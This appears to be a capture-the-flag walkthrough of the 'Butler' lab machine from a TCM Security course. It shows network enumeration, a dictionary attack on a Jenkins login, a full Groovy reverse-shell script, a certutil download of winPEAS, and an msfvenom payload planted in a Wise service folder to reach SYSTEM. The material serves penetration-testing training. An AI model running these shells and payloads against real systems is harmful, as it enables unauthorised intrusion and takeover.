

# Butler

[TOC]

## Introduction

This Butler Machine was especially developed for the TCM Security Course.

## Enumeration

First we need to find out the IP Address of the target which is sitting in our network.

We can use nmap or netdiscover or fping to perform this task. In our case we are going to use netdiscover:

```
netdiscover -r 192.168.126.0/24
```

Great! According to the results we should

Let us start by performing an nmap scan on the target machine in order to know what services it is hosting.

```bash
nmap 192.168.126.133 -p- -T4 -A
```


### HTTP

Port 8080 has Jenkins and showcases a login page. Searching online we can find some vulnerabilities to execute code and get a shell but first we need to log in. Default credentials `admin:password` did not work. Let's perform a dictionary attack to login.

For some reason performing this attack with hydra was giving a lot of error, but i found a metasploit module that performs this task for us.

```
use auxiliary/scanner/http/jenkins_login
```

The password file consisted of the rockyou.txt set of passwords and as for the username list I decided to go with 4: `root`, `jenkins`, `admin` and `administrator`.

After waiting a while we got the correct pair of credentials `jenkins:jenkins`.

### Foothold

Aftre logging on there is a known way to run code in Jenkins when a user is authenticated which is using thee Groovie Console.

```
String host="192.168.126.129";int port=4444;String cmd="cmd.exe";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Using  the script above we are able to get a reverse shell as user butler.

### Privilege Escalation

In order to be able to achieve Privilege Escalation as NT AUTHORITY\SYSTEM I took advantage of winPEAS.exe to achieve my goal.

```
certutil.exe -urlcache -f http://<ip>/winPEASany.exe winpeas.exe
winpeas.exe
```





The Wise folder is a potential target since we have access to it:


All we have to do now is create a Wise.exe payload, placee it on the Wise folder and restart the service:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.126.129 LPORT=5555 -f exe > Wise.exe
```

Great! Now download the file into the Wise folder.

Restart the service.

```
sc start WiseBootAssistant
sc start WiseBootAssistant
```

We got shell as NT Authority\System!


